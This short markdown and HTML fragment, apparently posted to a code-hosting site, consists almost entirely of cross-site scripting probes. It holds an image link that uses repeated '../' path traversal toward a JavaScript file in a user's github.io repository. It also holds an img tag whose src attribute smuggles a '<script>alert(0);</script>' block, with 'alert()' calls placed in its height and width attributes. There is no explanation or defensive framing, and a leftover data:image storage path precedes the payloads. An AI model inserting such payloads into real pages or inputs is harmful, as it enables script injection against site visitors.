 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=<script>alert(0);</script>" height="alert()" width="alert(1)">

